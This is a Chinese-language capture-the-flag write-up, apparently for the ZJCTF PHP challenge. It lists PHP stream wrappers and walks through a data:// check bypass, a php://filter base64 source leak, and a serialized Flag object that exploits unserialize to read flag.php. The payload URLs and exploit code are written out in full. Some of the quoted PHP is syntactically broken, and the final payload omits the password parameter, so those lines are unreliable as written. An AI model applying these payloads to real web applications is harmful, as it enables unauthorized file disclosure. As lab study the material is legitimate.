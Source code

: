 ```
file:/1一访问本地文件系统

http://一访问HTTP(S)网址

ftp://一访问FTP(S)URLS

php：//一访问各个输入/输出流(1/0streams)

zlib://一压缩流

data://一数据(RFC2397)

glob://一查找匹配的文件路径模式

phar://一PHP归档

ssh2:// - Secure Shell 2

rar: - RAR

ogg://一音频流

expect:/1一处理交互式的流
```
`data://text/plain;base64,<要寫的代碼>` -> `data`傳入數據,`://text/plain`路徑,`;base64`解碼方法
`php源碼`

```php
<?

$file=$_GET["file"];
$text=$_GET["text"];
$password=$_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf"
  echo "<br><h1>".file_get_contents($text,"r")."</h1></br>"
  if(preg_match("/flag/"),$file){
    echo "Not now";
    exit();
  }else{
        class Flag{ //useless.php
      public $file;
      public function __tostring(){
          if(isset($this->file)){
              echo file_get_contents($this->file);
              echo"<br>";
          return("U R SO CLOSE !///COME ON PLZ");
          }
  }  
  $password = unserialize($password);
  echo $password

?>
```

`?text=data://text/plain,welcome to the zjctf&file=php://filter/convert.base64-encode/resource=useless.php`
當造了這個payload會有`useless.php`加密後的base64出

```php
<?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  

```
```php
class Flag{
 public $file="flag.php";
}
echo urlencode(serialize(new flag()));
```
這樣出來密碼`O%3A4%3A%22Flag%22%3A1%3A%7Bs%3A4%3A%22file%22%3Bs%3A8%3A%22flag.php%22%3B%7D`

造payload -> `?text=data://text/plain,welcome to the zjctf&file=useless.php&O%3A4%3A%22Flag%22%3A1%3A%7Bs%3A4%3A%22file%22%3Bs%3A8%3A%22flag.php%22%3B%7D`

然後flag就在源碼那
|知識點||
|----|-----|
|data://|自PHP>=5.2.0起，可以使用data://数据流封装器，以传递相应格式的数据。通常可以用来执行PHP代码。一般需要用到base64编码传输|
|isset(s())|檢查有沒有s這個變數，是不是為NULL|

#拖了4天才把這個看完

